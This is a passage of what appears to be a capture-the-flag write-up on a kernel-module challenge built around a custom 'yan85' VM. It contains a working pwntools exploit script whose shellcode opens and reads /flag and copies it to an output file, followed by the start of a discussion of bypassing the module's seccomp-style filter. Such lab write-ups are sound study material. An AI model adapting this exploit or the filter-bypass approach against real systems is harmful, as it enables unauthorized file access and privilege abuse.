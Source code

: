 ```python
    # if debug:
    #     p = gdb.debug(BINARY, gdbscript=GDB_SCRIPT)
    # else:

    p = process(BINARY)
    
    flag_path = b'/flag\x00'
    flag_addr = 0
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "flag" in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path)
    # open("/flag", O_RDONLY, 0)
    yancode += open_file(file_addr=flag_addr)
    # read(fd, &mem[0], 0x50)
    yancode += read_to_memory(fd=Regs.a, offset=flag_addr, count=max_size)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_addr, count=max_size)

    yan_asm = ''
    for b in yancode:
        yan_asm += f'.byte {hex(b)}\n'
    
    log.info(SHELLCODE.format(yan_asm))
    user_shellcode = asm(SHELLCODE.format(yan_asm))
    with open('gdb_input.bin', 'wb') as f:
        f.write(user_shellcode)
    
    p.send(user_shellcode)
    p.recvuntil(b'Executing shellcode!\n')

    p.interactive()


if __name__ == '__main__':
    main()
```

## Challenge 2

Now, in addition to `mmap, ioctl`, the userspace program may also perform `fork`. \
The kernel module now contains dedicated `yan85_seccomp` implementation. Before executing every instruction, it's being passed through the filter. The filter checks that the instruction is of type `syscall`, and if so - checks if its requested syscall type is either `read_code` or `read_memory`. My previous exploit uses `read_memory` syscall, as it must read the file's content, hence - we must find a way to either bypass or to find a vuln within that seccomp implementation. \
The following is the exact check that the kernel module performs:


[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html